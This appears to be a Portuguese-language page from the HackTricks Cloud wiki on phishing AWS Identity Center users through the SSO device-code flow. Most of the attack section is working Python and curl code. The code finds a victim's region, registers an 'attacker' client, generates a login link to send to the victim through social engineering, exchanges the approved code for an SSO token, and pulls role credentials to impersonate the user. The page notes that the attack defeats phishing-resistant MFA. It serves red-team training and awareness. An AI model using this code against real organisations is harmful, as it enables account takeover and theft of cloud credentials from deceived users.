# AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Phishing de Código de Dispositivo AWS

Proposto inicialmente em [**este post do blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), é possível enviar um **link** para um usuário usando AWS SSO que, se o **usuário aceitar**, o atacante poderá obter um **token para se passar pelo usuário** e acessar todos os papéis que o usuário pode acessar no **Identity Center**.

Para realizar esse ataque, os requisitos são:

* A vítima precisa usar o **Identity Center**
* O atacante deve conhecer o **subdomínio** usado pela vítima `<victimsub>.awsapps.com/start`

Com apenas as informações anteriores, o **atacante poderá enviar um link para o usuário** que, se **aceito**, concederá ao **atacante acesso à conta do usuário AWS**.

### Ataque

1. **Encontrando o subdomínio**

O primeiro passo do atacante é descobrir o subdomínio que a empresa vítima está usando em seu Identity Center. Isso pode ser feito via **OSINT** ou **adivinhação + BF**, já que a maioria das empresas usará seu nome ou uma variação de seu nome aqui.

Com essa informação, é possível obter a região onde o Identity Center foi configurado:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Gere o link para a vítima & Envie-o**

Execute o seguinte código para gerar um link de login do AWS SSO para que a vítima possa se autenticar.\
Para a demonstração, execute este código em um console Python e não o feche, pois mais tarde você precisará de alguns objetos para obter o token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envie o link gerado para a vítima usando suas incríveis habilidades de engenharia social!

3. **Aguarde até que a vítima o aceite**

Se a vítima já estava **conectada no AWS**, ela só precisará aceitar a concessão das permissões; se não estava, precisará **fazer login e então aceitar a concessão das permissões**.\
Assim é como o prompt aparece atualmente:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenha o token de acesso SSO**

Se a vítima aceitou o prompt, execute este código para **gerar um token SSO se passando pelo usuário**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
O token de acesso SSO é **válido por 8h**.

5. **Imitar o usuário**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing do MFA inphishável

É interessante saber que o ataque anterior **funciona mesmo se um "MFA inphishável" (webAuth) estiver sendo usado**. Isso ocorre porque o **fluxo de trabalho anterior nunca sai do domínio OAuth utilizado**. Diferente de outros ataques de phishing onde o usuário precisa substituir o domínio de login, no caso, o fluxo de código do dispositivo é preparado para que um **código seja conhecido por um dispositivo** e o usuário possa fazer login mesmo em uma máquina diferente. Se o prompt for aceito, o dispositivo, apenas por **conhecer o código inicial**, será capaz de **recuperar credenciais** para o usuário.

Para mais informações sobre isso [**ver este post**](https://mjg59.dreamwidth.org/62175.html).

### Ferramentas Automáticas

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referências

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
